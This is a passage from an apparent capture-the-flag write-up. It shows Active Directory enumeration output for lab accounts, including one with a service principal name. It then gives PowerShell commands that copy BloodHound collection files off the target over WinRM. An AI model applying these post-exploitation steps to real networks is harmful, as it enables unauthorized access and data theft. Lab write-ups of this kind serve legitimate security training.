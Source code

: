 ```
countrycode           : 0
whenchanged           : 3/21/2018 7:15:25 PM
instancetype          : 4
usncreated            : 25717
objectguid            : f221260f-558d-4787-b867-ec03a01cfa2e
lastlogoff            : 1/1/1601 2:00:00 AM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=intranet,DC=poo
dscorepropagationdata : 1/1/1601 12:00:00 AM
lastlogon             : 3/22/2018 7:51:35 PM
badpwdcount           : 3
cn                    : p00_dev
useraccountcontrol    : NORMAL_ACCOUNT
whencreated           : 3/21/2018 7:06:49 PM
primarygroupid        : 513
pwdlastset            : 3/21/2018 9:06:49 PM
usnchanged            : 25736
NULL
logoncount            : 13
badpasswordtime       : 3/22/2018 1:53:22 PM
distinguishedname     : CN=p00_adm,CN=Users,DC=intranet,DC=poo
objectclass           : {top, person, organizationalPerson, user}
lastlogontimestamp    : 4/11/2018 8:59:32 PM
name                  : p00_adm
objectsid             : S-1-5-21-2413924783-1155145064-2969042445-1107
samaccountname        : p00_adm
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : 1/1/1601 2:00:00 AM
countrycode           : 0
whenchanged           : 4/11/2018 5:59:32 PM
instancetype          : 4
objectguid            : 3a04555f-c783-4b22-afeb-28ac72154842
lastlogon             : 4/12/2018 12:45:33 AM
lastlogoff            : 1/1/1601 2:00:00 AM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=intranet,DC=poo
dscorepropagationdata : 1/1/1601 12:00:00 AM
serviceprincipalname  : cyber_audit/intranet.poo:443
memberof              : CN=P00 Help Desk,CN=Users,DC=intranet,DC=poo
whencreated           : 3/21/2018 7:07:23 PM
badpwdcount           : 0
cn                    : p00_adm
useraccountcontrol    : NORMAL_ACCOUNT
usncreated            : 25722
primarygroupid        : 513
pwdlastset            : 3/22/2018 2:39:53 PM
usnchanged            : 69768
```

We can copy the BloodHound files to our local computer using WinRM:

```
PS C:\Users\snowscan> $session = new-pssession -computername [dead:babe::1001] -credential $Credential
PS C:\Users\snowscan> copy-item -fromsession $session -path c:\temp\*.csv -destination .
PS C:\Users\snowscan>
```
